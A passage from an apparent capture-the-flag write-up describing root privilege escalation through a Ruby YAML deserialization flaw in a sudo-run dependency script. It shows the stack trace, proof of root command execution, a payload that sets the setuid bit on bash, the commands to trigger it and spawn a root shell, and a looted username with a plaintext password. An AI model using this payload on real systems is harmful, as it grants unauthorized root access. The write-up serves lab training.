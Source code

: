 ```text
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

The command is executed :

```text
uid=0(root) gid=0(root) groups=0(root)
```

We can use it to get a root shell by adding a setuid bit to bash executable :

```text
             git_set: "chmod +s /bin/bash"
```

Execute again the exploit and get a root shell : 

```shell
sudo /usr/bin/ruby /opt/update_dependencies.rb
/bin/bash -p
```

We have a root shell.

## Loots

### credentials

| Username  					| Password  		| Hash      		| Usage     |
| ---       					| ---       		| ---       		| ---       |
| henry                         | Q3c1AqGHtoI0aXAYFH |                  |           |
